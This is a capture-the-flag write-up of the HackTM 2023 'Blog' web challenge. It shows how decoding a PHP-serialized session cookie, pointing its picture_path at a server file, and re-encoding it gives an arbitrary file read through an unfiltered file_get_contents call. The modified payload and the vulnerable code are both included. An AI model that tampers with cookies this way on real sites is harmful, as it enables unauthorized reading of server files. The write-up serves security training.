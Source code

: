 # Blog
> We made a new blogging website for everyone to use! It's pretty basic for now,

> and it has a few limitations like:

> 1. No comments
> 2. Semi-working authentication system
> 3. Lots of random checks slowing down the entire website honestly (i don't know what's going on so i'm not touching it)

> To mitigate that, we made it such that only you can view your own posts. No one
can hack us now >:)

> (im not sure what kind of blog that is tho...)

## About the Challenge
We are given a website and a source code (You can find the source code [here](/HackTM%202023/Blog/dist.zip))

![preview](images/preview.png)

## How to Solve?
First we need to register and login to the website, and you will find dashboard page

![dashboard](images/dashboard.png)

After that, check the cookie. You will find a cookie named `user` and the cookies will be like this
```
Tzo0OiJVc2VyIjoyOntzOjc6InByb2ZpbGUiO086NzoiUHJvZmlsZSI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiJhYWFhYSI7czoxMjoicGljdHVyZV9wYXRoIjtzOjI3OiJpbWFnZXMvcmVhbF9wcm9ncmFtbWVycy5wbmciO31zOjU6InBvc3RzIjthOjA6e319
```

If we decode the cookie using `base64`. We will get this value
```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

Luckily there is a flag path in the `Dockerfile` file. Change the picture_path from `images/real_programmers.png` to `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt`.

```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```

And then encode using `base64` and resend the request. You will retrieve the flag by checking `img` tag. That happen because of the code using `file_get_contents` function without any filter so we can read any files on the server

```php
        if (gettype($this->picture_path) !== "string") {        
            return "<script>window.location = '/login.php'</script>";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
```

![flag](images/flag.png)

```
HackTM{r3t__toString_1s_s0_fun_13c573f6}
```